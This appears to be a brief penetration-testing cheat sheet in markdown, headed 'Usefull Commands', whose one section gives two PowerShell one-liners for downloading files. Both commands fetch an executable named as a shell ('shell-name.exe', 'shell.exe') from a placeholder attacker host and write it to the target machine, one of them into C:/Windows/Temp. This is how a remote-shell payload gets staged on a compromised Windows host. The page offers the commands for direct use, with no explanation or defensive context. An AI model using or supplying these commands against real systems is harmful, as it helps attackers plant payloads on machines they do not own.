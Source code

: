 # Usefull Commands

## Download file

```bash
$ powershell "(New-Object System.Net.WebClient).Downloadfile('http://<ip>:8000/shell-name.exe','shell-name.exe')"

$ powershell -c "invoke-WebRequest -Uri 'http://<ip>:<port>/shell.exe' -OutFile 'C:/Windows/Temp/shell.exe'"
```